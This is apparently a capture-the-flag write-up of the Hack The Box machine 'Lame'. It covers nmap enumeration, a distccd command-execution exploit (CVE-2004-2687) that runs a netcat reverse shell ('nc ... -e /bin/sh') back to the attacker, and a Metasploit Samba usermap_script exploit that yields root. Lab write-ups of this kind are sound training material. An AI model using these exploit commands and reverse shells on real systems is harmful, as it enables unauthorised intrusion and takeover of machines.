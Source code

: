 ```yaml
---
title: Writeup - HTB Lame
date: 2023-10-29
author: kei5uke
description: Writeup for HTB Lame
tags:
  - linux
  - metasploit
  - writeup
---
```


# Lame

# Enumeration

## Nmap

```bash
┌──(root💀kali)-[~/lame]
└─# nmap -sC -sV -p- -T4 10.129.79.102 -oN nmap.txt
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 01:31 EEST
Nmap scan report for 10.129.79.102
Host is up (0.039s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.22
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-`k  Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h00m25s, deviation: 2h49m45s, median: 22s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-10-28T18:33:35-04:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 151.11 seconds
```

## FTP File Zilla

This is not writeable

## SMB

```bash
┌──(root💀kali)-[~/lame]
└─# smbclient -L 10.129.79.102                                                                                           1 ⨯
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

Not accessible.

## Distccd

[(CVE-2004-2687) DistCC Daemon - Command Execution (Python)](https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855)

Found interestring exploit.

```bash
┌──(root💀kali)-[~/lame]
└─# python3 distccd_rce_CVE-2004-2687.py -t 10.129.79.102 -p 3632 -c "nc 10.10.16.22 1403 -e /bin/sh"
[*] Connected to remote service
[!] Socket Timeout
```

![Screenshot 2023-10-29 at 02.06.44.png](Lame%201eaea493130c47ba805ffed580c9de33/Screenshot_2023-10-29_at_02.06.44.png)

I got first shell

# Shell Privilege Escalation

I tried a lot of things but I couldn’t find anything that makes me gain root privilege with this user.

[Samba "username map script" Command Execution](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

I decided to go back to enumeration and found interesting smb vulnerability and tried it with msfconsole in the end.

```bash
msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/
                                      wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)

Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.211.55.20     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf6 exploit(multi/samba/usermap_script) > set RHOSTS 10.129.79.102
RHOSTS => 10.129.79.102
msf6 exploit(multi/samba/usermap_script) > set LHOST 10.10.16.22
LHOST => 10.10.16.22
msf6 exploit(multi/samba/usermap_script) > run
```

![Screenshot 2023-10-29 at 03.19.36.png](Lame%201eaea493130c47ba805ffed580c9de33/Screenshot_2023-10-29_at_03.19.36.png)

I got root.